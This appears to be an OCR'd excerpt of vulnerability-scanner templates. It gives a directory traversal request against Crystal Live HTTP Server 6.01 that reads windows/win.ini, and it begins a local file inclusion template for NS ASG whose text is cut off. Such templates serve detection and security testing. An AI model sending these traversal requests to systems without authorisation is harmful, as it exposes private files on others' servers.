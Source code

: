 **Type - word**

- part - header
- words
  1. text/css

**Type - status**

- status
  1. 200

---

# Crystal Live HTTP Server 6.01 - Directory Traversal

- severity - high
- tags - lfi,crystal

## Requests

- Method - GET

### URL

- {{BaseURL}}/../../../../../../../../../../../../windows/win.ini

### Matchers

**Type - word**

- part - body
- words
  1. bit app support
  2. fonts
  3. extensions
- condition - and

---

# NS ASG - Local File Inclusion

## Description

- NS ASG is vulnerable to local file inclusion.
- severity - high
- tags - nsasg,lfi

## Requests

- Method - GET

### URL
